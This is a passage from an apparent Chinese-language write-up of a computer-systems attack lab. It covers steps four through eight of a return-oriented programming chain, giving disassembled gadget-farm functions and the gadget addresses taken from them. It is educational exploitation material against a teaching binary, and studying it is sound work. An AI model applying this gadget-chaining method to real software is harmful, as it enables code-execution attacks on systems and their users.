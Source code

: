 (4) 第四步，将`%eax`的内容传送到`%edx`

```bash
00000000004019db <getval_481>:
  4019db: b8 5c 89 c2 90        mov    $0x90c2895c,%eax
  4019e0: c3    
  
movl %eax, %edx`的指令字节为:`89 c2`, 所以这一步的`gadget`地址为：`0x4019dd
```

(5) 第五步，将`%edx`的内容传送到`%ecx`

```bash
0000000000401a6e <setval_167>:
  401a6e: c7 07 89 d1 91 c3     movl   $0xc391d189,(%rdi)
  401a74: c3  
  
movl %edx, %ecx`的指令字节为：`89 d1`，所以这一步的`gadget`地址为：`0x401a70
```

(6) 第六步，将`%ecx`的内容传送到`%esi`

```xml
0000000000401a11 <addval_436>:
  401a11: 8d 87 89 ce 90 90     lea    -0x6f6f3177(%rdi),%eax
  401a17: c3                    retq 
    
movl %ecx, %esi`的指令字节为：`89 ce`, 所以这一步`gadget`地址为：`0x401a13
```

(7) 第七步，将栈顶 + 偏移量得到字符串的首地址传送到`%rax`

```xml
00000000004019d6 <add_xy>:
  4019d6: 48 8d 04 37           lea    (%rdi,%rsi,1),%rax
  4019da: c3                    retq 
```

这一步的`gadget`地址为：`0x4019d6`

(8) 将字符串首地址`%rax`传送到`%rdi`

```xml
00000000004019a0 <addval_273>:
  4019a0: 8d 87 48 89 c7 c3     lea    -0x3c3876b8(%rdi),%eax
  4019a6: c3
    
movq %rax, %rdi`的指令字节为：`48 89 c7`，所以这一步的`gadget`地址为：`0x4019a2
```
